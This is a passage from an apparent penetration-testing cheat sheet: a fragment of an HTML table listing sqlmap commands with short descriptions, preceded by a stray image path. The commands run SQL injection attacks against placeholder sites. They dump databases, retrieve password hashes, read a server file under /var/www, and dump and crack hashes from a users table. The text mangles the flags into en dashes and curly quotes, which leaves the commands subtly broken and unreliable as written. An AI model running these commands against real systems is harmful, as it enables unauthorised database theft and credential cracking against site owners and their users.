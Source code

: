–cookie=jsessionid=54321 –level=5 –risk=3</td>
<td>Automated sqlmap scan</td>
</tr>
<tr>
<td>sqlmap -u TARGET -p PARAM –data=POSTDATA –cookie=COOKIE<br>
–level=3 –current-user –current-db –passwords<br>
–file-read=”/var/www/blah.php”</td>
<td>Targeted sqlmap scan</td>
</tr>
<tr>
<td>sqlmap -u “http://meh.com/meh.php?id=1”<br>
–dbms=mysql –tech=U –random-agent –dump</td>
<td>Scan url for union + error based injection with mysql backend<br>
and use a random user agent + database dump</td>
</tr>
<tr>
<td>sqlmap -o -u “http://meh.com/form/” –forms</td>
<td>sqlmap check form for injection</td>
</tr>
<tr>
<td>sqlmap -o -u “http://meh/vuln-form” –forms<br>
-D database-name -T users –dump</td>
<td>sqlmap dump and crack hashes for table users on database-name.</td>
</tr>
</tbody>
</table>
